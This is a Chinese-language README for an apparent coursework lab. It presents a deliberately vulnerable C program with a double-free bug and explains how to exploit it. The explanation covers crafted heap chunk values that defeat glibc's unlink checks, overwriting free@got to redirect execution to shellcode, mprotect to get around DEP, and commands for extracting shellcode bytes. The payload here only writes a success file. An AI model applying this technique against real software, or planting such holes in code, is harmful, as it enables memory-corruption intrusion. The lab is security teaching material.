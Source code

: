 # 程序说明

---

## 1) vul
命名：double_free
漏洞：重复释放漏洞
攻击：代码注入攻击
Shellcode：写文件

**由于系统对 double free 的检测十分严格，所以当程序员写出 double free 的程序时，系统会自动报错。为了绕过这些检测，我们故意在程序中进行两次 free，这在实际程序中不会存在，因此难以有实际的功能，我们这个漏洞程序就没有写实际的功能，只是展示了如何绕过现有的检测机制。**

本次代码注入攻击是借助 double free 实现的，通过用户编写程序时对申请的同一堆块 double free 的不慎操作获得一个可控指针，篡改 `free@got` 表内容，最终实现将对 free 函数的调用篡改为对 shellcode 的调用。
漏洞程序在课件 double free 部分中所给例子的基础上，稍加改动，漏洞程序主体如下：

```c
p0 = malloc(448);
p1 = malloc(512);
free(p0);
free(p1);
p2 = malloc(768);

memcpy(p2, buf, length);

free(p1); //double free
```

### 对于 double free 以及 unlink 实现细节的绕过：
本次试验攻击模式为单纯的输入数据攻击，随着操作系统安全性的增强，存在防止堆溢出的检测代码，如下：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```
	
   	
其基本含义为：当前堆块的上一堆块中指向下一堆块的指针和当前堆块的下一堆块中指向上一堆块的指针，如果不是指向当前堆块的话，程序就会崩溃退出。
为绕过其检查，需要对注入数据进行特殊构造。已知堆块结构中存在两个指向前后空闲堆块的指针：

```c
struct malloc_chunk* fd;
struct malloc_chunk* bk;
```
	
在注入数据中将两个内存区域分别覆盖为：

```c
p0+16 = &p0-24; //本程序中为0x0000000000601090-24
p0+24 = &p0-16; //本程序中为0x0000000000601090-16
```

即 shellcode 中：

```
\x78\x10\x60\x00\x00\x00\x00\x00
\x80\x10\x60\x00\x00\x00\x00\x00
```

同时，为了绕过 unlink 时对于要释放的堆块大小的检查，在申请的堆块 `p0` , `p1` 的相关位置需覆盖如下数据：

```c
p0 = 0; //十六进制为0x0000000000000000
p0+8 = 448+1; //十六进制为0x00000000000001c1
p1-16 = 448; //十六进制为0x00000000000001c0
p1-8 = 320; //十六进制为0x0000000000000140
```

均可在 shellcode 注入数据的相关位置查看。

这样即可绕过 double free 以及 unlink 的所有相关检查，并可以获得一个可控指针。
之后寻找到 `free@got` 地址 `0x00000000000601018`，将其篡改为 shellcode 地址，本程序为 `p2+32`，那么在用户再次调用 `free(p2)` 时，即转到shellcode的调用，从而实现攻击。

### 对于操作系统相关保护的绕过：
首先，为了绕过 DEP，将 shellcode 所在页改为可执行，代码如下：

```c
mprotect((void *)((uint64_t)p2 & ~4095), 4096, PROT_WRITE|PROT_READ|PROT_EXEC);
```
	
其次，为了绕过ASLR，漏洞程序在构造的过程中对堆块指针进行全局声明，如下：

```c
unsigned char *p0;
unsigned char *p1;
unsigned char *p2;
```

最后，本程序不牵扯栈保护的相关内容。

## 2) input
`input.txt` 此文件为 shellcode，其功能为向 `output`文件夹中的 `double_free_injection_output.txt` 文件中写入字符串 `Double free attack success!`

## 3) output
如果攻击成功会产生 `double_free_injection_output.txt` 文件，文件内容为 `Double free attack success!`
如果攻击失败，将不产生文件，或文件为空

## 4) check
命名：`double_free_injection_check`
获取 `output` 文件夹下 `double_free_injection_output.txt` 文件
如果此文件不存在，或为空，返回失败信息，否则将此文件中的信息返回

## 5) compile.sh  define.json
编译命令和配置信息已经写入 `compile.sh` 和 `define.json` 文件

## 6) shellcode 生成 
用汇编写一段满足攻击要求的程序 `shellcode.asm`
按照如下命令生成 shellcode :
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
ld -s -o shellcode shellcode.o
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```



